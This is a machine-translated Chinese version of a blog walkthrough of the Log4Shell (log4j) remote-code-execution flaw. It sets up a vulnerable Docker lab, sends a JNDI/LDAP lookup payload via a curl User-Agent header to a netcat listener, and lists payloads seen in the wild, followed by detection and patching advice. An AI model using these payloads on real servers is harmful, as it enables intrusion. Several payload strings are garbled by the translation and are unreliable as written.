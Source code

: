 # 概念验证:零时差 RCE

> 原文：<https://infosecwriteups.com/proof-of-concept-zero-day-log4j-rce-fb9e1364fe92?source=collection_archive---------0----------------------->

![](img/1874eda158e1143a5b836a7837c12d2c.png)

> [log4j 是什么？](#b145)
> 
> [谁会受到影响？](#fe64)
> 
> [概念验证:](#7845)
> 
> [上面刚刚发生了什么？](#c2f8)
> 
> [其他有效载荷](#ec1a)
> 
> 我有危险吗？
> 
> [我如何才能安全？](#a5bf)
> 
> [参考文献:](#60d3)

大家好，今天，我们将看看一个特制的字符串如何导致远程代码执行(RCE)，以及这个漏洞如何影响互联网的大部分。让我们进入主题。

# log4j 是什么？

Log4j 是一个用 java 编写的日志框架。开发人员经常使用日志来找出软件中的问题发生在哪里。但是，该框架存在一个漏洞，使得攻击者能够远程执行代码(RCE)。

# **谁会受到影响？**

大多数大型科技公司都使用这个框架。据消息人士称，《我的世界》、苹果 iCloud、Steam 和其他一些公司都受到了影响。许多网络安全公司报告称，检测到了针对该漏洞的大规模扫描。

# **概念验证:**

如果您想在本地机器上重现此漏洞，请从 Github 下载此易受攻击的应用程序。

**Github 链接:**[https://github.com/leonjza/log4jpwn](https://github.com/leonjza/log4jpwn)

**第一步:**克隆存储库并进入目录

![](img/918abbaad6b39f68491068e9f1efe646.png)

**第二步:**使用 docker 通过以下命令构建一个映像。

![](img/c31700b3bdb7efcaa1a95ad6bd48b186.png)

**步骤 3:** 运行 docker 容器，如下所示

![](img/f029d6fae87a4f6a4ce1bf72a562e9de.png)

**步骤 4:** 打开一个新的终端，启动一个 Netcat 监听器

![](img/d0027f6608cf5f6014ab9706cd40a98d.png)

**第五步:**提出卷曲请求

> curl -H '用户代理:$ { JNDI:LDAP://172 . 17 . 0 . 1:8055/a } '本地主机:1334

![](img/32006b755c1e9cce57f778f9cf6ed74d.png)

**步骤 6:** 现在查看 Netcat 监听器，您将能够看到接收到的连接。

![](img/9ada142cc8b8535e20427ece854fd8d3.png)

# **上面刚刚发生了什么:**

curl 请求中的有效负载触发了步骤 5 中的 log4j 漏洞，导致服务器向攻击者的服务器发送请求。这个响应包含一个远程 java 类文件的路径，该文件被注入到服务器进程中。

# **其他有效载荷:**

以下是一些在野外捕获的其他有效载荷。
LDAP://2862853 fca0b . bingsearchlib . com:39356/a
LDAP://45 . 155 . 205 . 233:12344/Basic/Command/Base64/
LDAP://x . x . x . x . c 6 pnncggjk 7 JK 873 c 9 e 0cg 3 zzcoyyyyn . interact sh . com/999
LDAP://x . x . x . x

# **我有危险吗:**

此框架的 2.10 到 2.14 版本易受攻击。如果你在使用这两个版本中的任何一个，你就有风险。然而，你也可以找到，如果你是脆弱的，或者没有几个工具的帮助。我在下面列出了其中的一些。

[https://gist . github . com/byt 3 bl 33d 3 r/46661 BC 206d 323 e 6770907d 259 e 009 b 6](https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6)

[https://Twitter . com/thinkstcanary/status/1469439743905697797？s=21](https://twitter.com/thinkstcanary/status/1469439743905697797?s=21)

# **我怎样才能安全:**

补丁已经开始推出。该漏洞已在 2.15 版中得到解决，尽管仍需要 Java 8。他们都不能升级到 java 8，因为它可能会在代码库中产生一些冲突，所以 Lunasec 建议了一些临时解决方案。可以在下面的链接中找到。
[https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)

# 最终想法:

如果你喜欢我的工作，你可以在这里给我买杯咖啡

[![](img/55f8dd51be2f7a62a32e4f4e73b6c34c.png)](https://www.buymeacoffee.com/UVvirus)

# **参考文献:**

[](https://github.com/leonjza/log4jpwn) [## GitHub-Leon jza/log 4 jpwn:log4j rce 测试环境

### log4j rce 测试环境参见:https://www.lunasec.io/docs/blog/log4j-zero-day/要么在您的主机上用

github.com](https://github.com/leonjza/log4jpwn) [](https://www.lunasec.io/docs/blog/log4j-zero-day/) [## Log4Shell:在 log4j 2(一个流行的 Java 日志包| LunaSec)中发现 RCE 0 天漏洞

### 7 分钟阅读更新@太平洋标准时间 12 月 11 日下午 7:30 这篇博文在 https://log4shell.com/也有几个小时…

www.lunasec.io](https://www.lunasec.io/docs/blog/log4j-zero-day/)